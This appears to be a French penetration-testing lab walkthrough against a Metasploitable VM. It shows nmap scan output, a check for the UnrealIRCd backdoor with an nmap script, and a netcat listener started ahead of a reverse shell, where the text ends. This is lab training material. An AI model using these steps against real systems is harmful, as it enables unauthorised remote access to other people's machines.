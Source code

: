 ```txt
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  shell       Netkit rshd
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Un serveur irc `UnrealIRCd` a été trouvé ouvert.
On recherche dans la liste des scripts nmap quelque chose en rapport avec UnrealIRCd.

```txt
┌──(kali㉿kali)-[~]
└─$ ls -l /usr/share/nmap/scripts | grep unrealircd 
-rw-r--r-- 1 root root  8480 Nov  2 03:10 irc-unrealircd-backdoor.nse
```

On teste le script pour vérifier si le service dispose de la backdoor.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 6667 --script=irc-unrealircd-backdoor 192.168.56.132
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 11:59 CET
Nmap scan report for 192.168.56.132
Host is up (0.00042s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277
Service Info: Host: irc.Metasploitable.LAN
```

Comme le backdoor semble exploitable, nous allons lire la [doc du script](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html).
On essaie donc d'exploiter la vulnérabilité et d'initier un reverse shell.

Dans une console séparée, nous lançons `nc` en mode écoute.

```txt
┌──(kali㉿kali)-[~]
└─$ nc -lvp 8080 
listening on [any] 8080 ...
```
